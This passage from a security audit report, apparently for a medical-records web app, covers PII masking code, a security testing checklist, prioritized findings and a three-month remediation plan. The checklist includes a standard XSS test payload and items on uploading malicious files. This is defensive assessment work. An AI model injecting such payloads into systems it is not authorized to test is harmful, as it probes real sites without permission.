  return phone.replace(/.(?=.{4})/g, '*');
};

export const maskNIN = (nin: string): string => {
  return `***-**-${nin.slice(-4)}`;
};

// Usage
<div>Email: {maskEmail(user.email)}</div>
<div>Phone: {maskPhone(user.phone)}</div>
```

**Effort**: 2-3 days

**Impact**: Reduced PII exposure

## Security Testing Checklist

### Manual Security Testing

- [ ] **XSS Testing**
  - [ ] Test all form inputs with `<script>alert('XSS')</script>`
  - [ ] Test URL parameters
  - [ ] Test search functionality
  - [ ] Verify no dangerouslySetInnerHTML with user content

- [ ] **Authentication Testing**
  - [ ] Attempt to access protected routes without login
  - [ ] Verify token expiration
  - [ ] Test password reset flow
  - [ ] Verify 2FA for organizations
  - [ ] Test role-based access control

- [ ] **CSRF Testing**
  - [ ] Attempt cross-site requests
  - [ ] Verify CORS configuration
  - [ ] Test state-changing operations

- [ ] **File Upload Testing**
  - [ ] Upload malicious files
  - [ ] Test file type bypass
  - [ ] Verify size limits
  - [ ] Test virus scanning

- [ ] **Session Management**
  - [ ] Concurrent session testing
  - [ ] Session timeout testing
  - [ ] Logout verification

### Automated Security Testing

```bash
# npm audit
npm audit --audit-level=moderate

# Snyk vulnerability scan
snyk test

# OWASP ZAP scan
zap-cli quick-scan http://localhost:5173

# Lighthouse security audit
lighthouse http://localhost:5173 --only-categories=best-practices
```

## Conclusion

### Summary of Findings

**Critical Issues (P0)**:
1. 🔴 localStorage token storage (XSS vulnerable)
2. 🔴 No Content Security Policy
3. 🔴 No security audit logging
4. 🔴 Inconsistent authentication mechanisms

**High Priority Issues (P1)**:
1. 🟡 No rate limiting
2. 🟡 No session timeout
3. 🟡 No dependency scanning
4. 🟡 Missing security headers

**Medium Priority Issues (P2)**:
1. 🟢 Input sanitization library needed
2. 🟢 PII data masking
3. 🟢 Enhanced monitoring

**Overall Security Score**: ⚠️ **6/10** (Needs Improvement)

**Strengths**:
- ✅ Excellent file upload security
- ✅ OTP protection for medical records
- ✅ Organization auth using httpOnly cookies
- ✅ Route guards implemented

**Weaknesses**:
- ❌ XSS vulnerability via localStorage tokens
- ❌ No CSP headers
- ❌ No audit logging
- ❌ No automated security scanning

### Recommended Timeline

**Month 1** (P0 - Critical):
- Week 1-2: Migrate to httpOnly cookies
- Week 3: Implement CSP
- Week 4: Add audit logging

**Month 2** (P1 - High):
- Week 1: Rate limiting
- Week 2: Session timeout
- Week 3-4: Dependency scanning setup

**Month 3** (P2 - Medium):
- Week 1: Input sanitization
- Week 2: Data masking
- Week 3-4: Security testing & monitoring

---

**Document Version**: 1.0.0  
**Last Updated**: 2025-01-18  
**Next Review**: 2025-02-18  
**Maintained By**: PHB Security Team
